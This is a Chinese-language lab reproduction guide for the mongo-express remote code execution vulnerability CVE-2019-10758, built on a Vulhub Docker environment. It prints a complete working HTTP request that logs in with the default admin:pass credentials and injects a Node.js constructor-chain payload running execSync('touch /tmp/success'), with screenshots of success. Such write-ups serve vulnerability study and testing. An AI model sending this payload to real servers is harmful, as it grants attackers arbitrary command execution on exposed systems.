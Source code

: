 # mongo-express 远程代码执行漏洞 CVE-2019-10758

## 漏洞描述

mongo-express是一款mongodb的第三方Web界面，使用node和express开发。如果攻击者可以成功登录，或者目标服务器没有修改默认的账号密码（`admin:pass`），则可以执行任意node.js代码。

## 环境搭建

Vulhub执行如下命令启动一个0.53.0版本的mongo-express：

```bash
docker-compose up -d
```

环境启动后，访问`http://your-ip:8081`即可查看到Web页面。

## 漏洞复现

直接发送如下数据包，即可执行代码`this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")`：

```
POST /checkValid HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Basic YWRtaW46cGFzcw==
Content-Type: application/x-www-form-urlencoded
Content-Length: 124

document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")
```

![image-20220226224214673](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202262242754.png)

命令`touch /tmp/success`已成功执行：

![image-20220226224250076](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202262242130.png)